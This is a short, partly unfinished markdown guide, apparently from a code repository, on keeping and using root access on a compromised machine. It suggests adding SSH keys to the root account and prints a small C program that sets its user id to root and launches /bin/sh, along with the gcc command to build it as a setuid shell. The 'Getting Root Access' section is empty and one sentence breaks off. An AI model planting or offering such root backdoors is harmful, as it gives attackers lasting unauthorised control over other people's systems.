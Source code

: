 # Guide


## Getting Root Access


## Using Root Access

How to use the root access to 

### SSH Keys

Create SSH keys for the Root account then just connect

### File Creation to Open a Shell

Create a file using the root privilege, or enable its privileges:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char *argv[]) {
	setreuid(0, 0);
	execve("/bin/sh", NULL, NULL); 
}
```

Compile the file:

```
gcc -o shell /opt/shells/setuid/exec.c
```
